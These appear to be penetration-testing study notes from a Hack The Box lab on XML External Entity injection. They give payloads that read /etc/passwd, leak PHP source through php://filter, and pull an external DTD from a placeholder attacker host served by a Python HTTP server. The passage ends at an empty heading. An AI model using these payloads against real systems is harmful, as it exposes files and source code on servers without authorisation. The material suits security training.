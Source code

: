 
### Identify

We can intercept request with Burp Suite and then see in the request if the data is being sent via XML

We can check in the response if we see any reflected values and if so it should be a good start on where to attempt injection


injecting xml entity for file disclosure
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

injecting xml entity for source code disclosure [PHP Only]
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```


## Advanced Methods


#### CDATA Method

Wrapping data in in CDATA Tag for arbitrary output [Must be all internal entities unless using parameter entities]
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

Using XML Parameter Entities [Example must be referenced externally]
```xml
<!ENTITY joined "%begin;%file;%end;">
```

Creating external resource holding xml parameter entities
```shell-session
Auzzie@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Auzzie@htb[/htb]$ python3 -m http.server 8000
```


#### Error Based Method



